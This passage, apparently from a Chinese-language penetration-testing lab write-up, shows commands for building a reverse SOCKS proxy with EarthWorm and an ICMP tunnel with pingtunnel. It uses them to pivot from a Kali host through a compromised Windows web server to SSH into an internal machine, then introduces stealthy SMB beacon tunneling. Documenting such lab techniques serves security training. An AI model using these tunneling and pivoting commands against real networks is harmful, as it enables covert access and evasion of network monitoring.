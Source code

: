 kali-server 开启反向 socks 客户端和 pingtunnel 服务端

```shell
./ew -s rcsocks -l 3333 -e 4444
./pingtunnel -type server
```

win-web 开启反向 socks 服务端和 pingtunnel 客户端

```batch
pingtunnel -type client -l 127.0.0.1:1111 -s 192.168.22.128 -t 192.168.22.128:4444 -sock5 -1
ew -s rssocks -d 127.0.0.1 -e 1111
```

![image.png](https://img.ghostliner.top/WM763B.png)

在 win-web 同网段开启另一台主机：CentOS，ip：192.168.22.130，开启 SSH 服务

win-client 使用 Proxifier 配置 SSH 代理

配置代理服务器、端口、协议

![image.png](https://img.ghostliner.top/0T2KAg.png)

配置代理规则，添加 `ssh.exe`

![image.png](https://img.ghostliner.top/L4UBhZ.png)

使用cmd 命令行连接 CentOS

```batch
ssh root@192.168.22.130
```

连接成功

![image.png](https://img.ghostliner.top/wxsbl4.png)

## 3. SMB 隧道技术

Windows 将命名管道通信封装在 SMB 协议中，此流量封装在 SMB 协议中，所以 SMB beacon 相对隐蔽。SMB beacon 不能直接生成可用载荷, 只能使用 PsExec 或 Stageless Payload 上线。
